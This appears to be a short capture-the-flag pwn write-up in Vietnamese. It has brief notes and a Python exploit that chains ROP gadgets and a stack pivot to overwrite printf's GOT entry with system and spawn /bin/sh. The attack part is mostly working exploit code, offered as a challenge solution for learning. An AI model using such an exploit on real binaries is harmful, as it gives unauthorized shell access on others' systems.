 ![image](https://hackmd.io/_uploads/SJZ4dTAExl.png)

- đầu tiên ta sẽ setup offset để add printf -> system vào bss -> sau đó debug để xử lí control flow sao cho chuẩn để từ rdx->rbx (setup xong bước 1) 


- setup 2 đơn giản là setup rbp+0x3d với rbp là 1 con trỏ chứa libc và setup làm sao cho /bin/sh nằm ở [rbp-0x20] ta cũng có thể dùng one-gadget để đơn giản bước này hơn 







final

![image](https://hackmd.io/_uploads/rJ43-CA4ge.png)


exp: 

```python
def exploit():
    one_gadget_offset = 0xEF52B - 0x2A28B - 0x800 - 1
    one_gadget_offset = 0x100000000 - (libc.sym["puts"] - libc.sym["system"])
    leave_ret = 0x4011CD
    pop_rbp = 0x000000000040115D
    magic_gadget_1 = 0x040114C  # adc edx, dword ptr [rbp + 0x48]; mov ebp, esp; call 0x3090; mov byte ptr [rip + 0x2efb], 1; pop rbp; ret;
    magic_gadget_2 = 0x000000000040115C  # add dword ptr [rbp - 0x3d], ebx ; nop ; ret
    main = 0x401205
    target = 0x404010  # printf
    _start = 0x040109D

    #  0x401205 <main+54>:  lea    rax,[rbp-0x20]
    pl = b"a" * 0x20 + p64(exe.bss() + 0xF00) + p64(main)
    
    input("pl1")
    s(pl)
    
    pl = p64(one_gadget_offset) * 3
    pl += (
        p64(one_gadget_offset)
        + p64(exe.bss() + 0x800)
        + p64(pop_rbp)
        + p64(0x404EF8 - 0x48)
    )
    pl += p64(magic_gadget_1) + p64(0) + p64(_start)
    
    input("pl2")
    s(pl)
    
    input("pl3")
    
    pl = b"a" * 0x20 + p64(exe.bss() + 0xF00) + p64(pop_rbp) + p64(target + 0x3D)
    pl += (
        p64(magic_gadget_2)
        + p64(pop_rbp)
        + p64(target - 8)
        + p64(pop_rbp + 1)
        + p64(pop_rbp)
    )
    pl += p64(exe.bss() + 0x800) + p64(0x401205)
    
    s(pl)
    input("/bin/sh")
    
    sl(b"/bin/sh")
```